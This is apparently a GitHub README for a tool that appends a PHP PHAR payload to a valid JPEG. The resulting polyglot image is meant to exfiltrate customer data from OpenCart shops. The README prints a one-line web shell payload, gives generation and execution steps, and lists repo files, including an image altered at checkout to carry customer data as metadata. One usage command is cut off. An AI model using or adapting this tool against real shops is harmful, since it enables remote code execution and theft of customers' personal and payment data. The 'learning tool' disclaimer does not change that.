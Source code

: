 # JPEG PHAR OpenCart-Malware generator

This is a simple tool to add a malicious phar payload at the end of a valid jpeg image to exfilter data from an Opencart shopping system!

It is based on a fork of the Repo Sarapuce/jpeg-phar-fusion.

It is only meant to be a learning to for Cybersecurity Student! Be Ethical!

## Requirements
- Python 3
- Php (Tested with php 8)

## Usage

2. Choose a php payload finishing by `__HALT_COMPILER();` for example :

`<?php system($_GET["cmd"]); __HALT_COMPILER(); ?>`

3. Create the payload with the script

`python3 phar_creator.py '

4. The generated PHAR/JPEG polyglot file is called `malicious.jpg`

5. Run "php include.php" to see the code executed!!


## It doesn't work 😡
Do you have the error 
> PHP Fatal error:  Uncaught UnexpectedValueException: creating archive "payload.phar" disabled by the php.ini setting phar.readonly

You need to enable the phar creation in php.ini

To locate your php.ini 

`php --ini`

Then edit this line in your file

`;phar.readonly = Off`

into

`phar.readonly = Off`

#################################################

Following files are available in this Repo:

1) iphone_original.jpeg

2) malicious.jpg (with specific code for opencart)

3) opencart-logo.png (Logo modified during the checkout process, downloaded from the browser and containing customer data as metadata)

4) simple_malicious.jpg (that prints php_info() stuff to the console / html page).


If php is installed and phar is activated, just run the following in the shell :

> php simple_malicious.jpg

